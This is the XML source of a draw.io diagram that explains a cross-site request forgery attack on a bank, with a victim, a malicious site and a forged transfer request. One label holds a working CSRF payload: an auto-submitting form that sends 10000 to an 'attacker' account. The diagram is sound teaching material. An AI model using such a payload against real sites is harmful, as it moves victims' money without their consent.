

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1569" dy="749" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="2" value="" style="image;html=1;image=img/lib/clip_art/computers/MacBook_128x128.png" parent="1" vertex="1">
      <mxGeometry x="200" y="200" width="80" height="80" as="geometry" />
    </mxCell>
    <mxCell id="3" value="" style="image;html=1;image=img/lib/clip_art/computers/Server_Tower_128x128.png" parent="1" vertex="1">
      <mxGeometry x="440" y="200" width="80" height="80" as="geometry" />
    </mxCell>
    <mxCell id="4" value="Bank" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
      <mxGeometry x="450" y="160" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="5" value="Victim" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
      <mxGeometry x="210" y="160" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="6" value="" style="image;html=1;image=img/lib/clip_art/computers/Server_Tower_128x128.png" parent="1" vertex="1">
      <mxGeometry x="-40" y="200" width="80" height="80" as="geometry" />
    </mxCell>
    <mxCell id="7" value="Bank" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
      <mxGeometry x="-30" y="160" width="60" height="30" as="geometry" />
    </mxCell>
    <mxCell id="8" value="" style="shape=flexArrow;endArrow=classic;html=1;fillColor=#008a00;strokeColor=#005700;" parent="1" source="2" target="3" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="290" y="410" as="sourcePoint" />
        <mxPoint x="380" y="410" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="9" value="Signs in to bank" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="8" vertex="1" connectable="0">
      <mxGeometry x="-0.1875" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="10" value="" style="endArrow=none;html=1;entryX=0.5;entryY=1;entryDx=0;entryDy=0;shape=link;" parent="1" target="2" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="240" y="520" as="sourcePoint" />
        <mxPoint x="340" y="360" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="11" value="" style="endArrow=none;html=1;entryX=0.5;entryY=1;entryDx=0;entryDy=0;shape=link;" parent="1" target="3" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="480" y="520" as="sourcePoint" />
        <mxPoint x="250" y="290" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="12" value="" style="endArrow=none;html=1;entryX=0.5;entryY=1;entryDx=0;entryDy=0;shape=link;" parent="1" target="6" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint y="520" as="sourcePoint" />
        <mxPoint x="490" y="290" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="13" value="" style="shape=flexArrow;endArrow=classic;html=1;fillColor=#a20025;strokeColor=#6F0000;" parent="1" source="2" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="290" y="410" as="sourcePoint" />
        <mxPoint x="10" y="320" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="14" value="Visits malicious site" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="13" vertex="1" connectable="0">
      <mxGeometry x="0.239" y="-1" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="15" value="&lt;div&gt;&amp;lt;form method=POST action=https://bank.com/transfer&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;span style=&quot;&quot;&gt;&lt;/span&gt;&amp;nbsp; &amp;nbsp; &amp;lt;input name=recipient value=attacker&amp;gt;&lt;/div&gt;&lt;div&gt;&lt;span style=&quot;&quot;&gt;&lt;/span&gt;&amp;nbsp; &amp;nbsp; &amp;lt;input name=amount value=10000&amp;gt;&lt;/div&gt;&lt;div&gt;&amp;lt;/form&amp;gt;&lt;/div&gt;&lt;div&gt;&amp;lt;script&amp;gt;document.forms[0].submit()&amp;lt;/script&amp;gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
      <mxGeometry y="400" width="240" height="120" as="geometry" />
    </mxCell>
    <mxCell id="16" value="" style="shape=flexArrow;endArrow=classic;html=1;fillColor=#a20025;strokeColor=#6F0000;" parent="1" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="10" y="340" as="sourcePoint" />
        <mxPoint x="230" y="380" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="17" value="Page with CSRF" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="16" vertex="1" connectable="0">
      <mxGeometry x="0.239" y="-1" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
    <mxCell id="18" value="" style="shape=flexArrow;endArrow=classic;html=1;fillColor=#a20025;strokeColor=#6F0000;" parent="1" edge="1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="250" y="380" as="sourcePoint" />
        <mxPoint x="470" y="420" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="19" value="Request to bank including cookie" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" parent="18" vertex="1" connectable="0">
      <mxGeometry x="0.239" y="-1" relative="1" as="geometry">
        <mxPoint as="offset" />
      </mxGeometry>
    </mxCell>
  </root>
</mxGraphModel>